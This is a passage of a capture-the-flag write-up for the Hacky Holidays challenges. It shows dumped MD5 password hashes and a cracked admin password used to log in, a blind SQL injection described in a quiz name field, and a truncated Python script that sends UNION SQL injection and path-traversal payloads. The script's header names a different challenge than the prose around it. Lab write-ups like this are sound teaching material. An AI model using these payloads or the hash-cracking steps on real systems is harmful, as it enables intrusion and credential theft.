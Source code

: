 From the database, it was possible to dump two hashed credentials. One belonged to an admin user.
grinch	35D652126CA1706B59DB02C93E0C9FBF // Admin
max	388E015BC43980947FCE0E5DB16481D1
The passwords appeared to be hashed in md5. I used this site https://www.md5online.org/md5-decrypt.html to perform a bruteforce of the hash and retrieve the original password: BahHumbug.

{F1140370}

The found credential (grinchBahHumbug) was used to log in into the forum login panel. 

{F1140371}

The new "Secret Plans" section contained a thread with the flag.

{F1140372}

Flag: flag{677db3a0-f9e9-4e7e-9ad7-a9f23e47db8b}

#Challenge 9
The ninth challenge was accessible by browsing https://hackyholidays.h1ctf.com/evil-quiz. The challenge contained some quiz questions and a final tab showing the obtained score. There was also an admin login panel which required a username and password. 
From this challenge on things got interesting and evil!  

{F1140373}

The suspicious thing in this challenge was the statement on the "Score" tab, reporting "There is DD other player(s) with the same name as you!". 

{F1140374}

If not properly checked server-side, this statement could have performed a query on the database with user-supplied input in the Your Name field of the "Your Name" tab.
A simple test confirms the assumption.
{F1140375}
{F1140376}
This was a blind sql injection having the injection point on https://hackyholidays.h1ctf.com/evil-quiz and the query result on https://hackyholidays.h1ctf.com/evil-quiz/score , and the goal was to retrieve the admin credentials from the database. I ended up writing a python3 script which exploit the vulnerability, to dump the database name, the table names, the columns names and finally retrieve the credentials.

```
#!/usr/bin/python3

import requests, time, urllib3
import re
from bs4 import BeautifulSoup

if __name__ == "__main__": 
    print("[*] Challenge 11 - Identify endpoints")
    with open("api_object_lowercase.txt") as f:
        for endpoint in f:
            session = requests.session()
            x = endpoint.rstrip()
            burp0_url = "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=b%27%20UNION%20ALL%20SELECT%20%221%27%20UNION%20ALL%20SELECT%20%27c%27,%27b%27,%27../api/{}%27--%20-%22,1,2--%20-".format(x)
            burp0_headers = {"Connection": "close", "Content-Type":"application/json","Cache-Control": "max-age=0", "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"", "sec-ch-ua-mobile": "?0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "Accept": "*/*", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7,zh-CN;q=0.6,zh;q=0.5"}
            r = session.get(burp0_url, headers=burp0_headers)
            soup = BeautifulSoup(r.text)
            l = soup.find_all("img", {"class": "img-responsive"})
            p = l[2]["src"]
```